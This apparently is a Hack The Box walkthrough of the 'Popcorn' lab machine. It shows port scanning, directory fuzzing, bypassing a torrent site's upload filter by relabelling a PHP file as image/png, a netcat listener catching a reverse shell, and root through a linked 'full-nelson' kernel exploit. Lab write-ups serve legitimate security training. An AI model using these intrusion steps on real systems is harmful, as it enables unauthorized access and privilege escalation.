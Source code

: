 ```yaml
---
image: /assets/img/popcorn/popcorn.png
layout: post
title: Porncorn
date: 2020-10-6 00:00:01 +5:30
categories: [Hackthebox, Medium]
tags: [torrent, web, upload] # add tag
---
```


## Summary

> We have torrent in port 80
> Created an Account
> There is an upload vulnerability in screenshot upload feature
> After getting shell, linuxexpliotsuggester will show some exploits
> Exploiting with nelson Exploit will give Root

## Walkthrough

### Enumeration

```bash
argenestel@parrot  ~/Desktop/hackthebox/popcorn  rustscan 10.10.10.6
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.

[~] The config file is expected to be at "/home/argenestel/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5
000'.  
Open 10.10.10.6:22
Open 10.10.10.6:80
[~] Starting Nmap
[>] The Nmap command to be run is nmap -vvv -p 22,80 10.10.10.6

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 21:09 IST
Initiating Ping Scan at 21:09
Scanning 10.10.10.6 [2 ports]
Completed Ping Scan at 21:09, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:09
Completed Parallel DNS resolution of 1 host. at 21:09, 0.05s elapsed
DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:09
Scanning 10.10.10.6 [2 ports]
Discovered open port 80/tcp on 10.10.10.6
Discovered open port 22/tcp on 10.10.10.6
Completed Connect Scan at 21:09, 0.20s elapsed (2 total ports)
Nmap scan report for 10.10.10.6
Host is up, received syn-ack (0.20s latency).
Scanned at 2020-10-04 21:09:37 IST for 1s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds

```

####Port 80

Okay  let's dirbust the port80.

```bash
argenestel@parrot  ~/Desktop/hackthebox/popcorn  ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.6/FUZZ  

       /'___\  /'___\           /'___\        
      /\ \__/ /\ \__/  __  __  /\ \__/        
      \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\       
       \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/       
        \ \_\   \ \_\  \ \____/  \ \_\        
         \/_/    \/_/   \/___/    \/_/        

      v1.0.2
________________________________________________

:: Method           : GET
:: URL              : http://10.10.10.6/FUZZ
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 287, Words: 21, Lines: 11]
.htpasswd               [Status: 403, Size: 287, Words: 21, Lines: 11]
cgi-bin/                [Status: 403, Size: 286, Words: 21, Lines: 11]
index                   [Status: 200, Size: 177, Words: 22, Lines: 5]
rename                  [Status: 301, Size: 309, Words: 20, Lines: 10]
test                    [Status: 200, Size: 47067, Words: 2465, Lines: 651]
torrent                 [Status: 301, Size: 310, Words: 20, Lines: 10]
```

![port](/assets/img/popcorn/port80torrent.png)

![login](/assets/img/popcorn/login.png)

Alright we checked common passwords and didn't worked.<br/>
Let's check by reg user (admin user already exists).

![reg](/assets/img/popcorn/registered.png)

Okay let's check if uploading php is possible or not<br />
ughh we can only upload torrent file.
So looking into previously uploaded file we can upload screenshot to let's check by uploading a torrent file.

since it is checking content type i changed it from application/x-php to image/png
and it was accepted as png

![upload](/assets/img/popcorn/uploaded.png)

Alright done now lets manupulate screenshot.

![uploadpng](/assets/img/popcorn/uploadedpng.png)

![png](/assets/img/popcorn/pngerror.png)

### Exploitation

Hurrayy let's get shell

```bash
argenestel@parrot  ~/Desktop/hackthebox/popcorn  nc -lvnp  4444  
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.6] 48833
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 21:47:21 up  4:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: no job control in this shell
www-data@popcorn:/$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@popcorn:/$ id
id
```

alright got www-data<br />
moving on to user

so we got george username<br />

![reg](/assets/img/popcorn/linuxexploitsuggester.png)

![reg](/assets/img/popcorn/nelsonexp.png)

<https://github.com/lucyoa/kernel-exploits/blob/master/full-nelson/full-nelson> <br />
so i got root by running linux exploit suggester.

Rooted :)
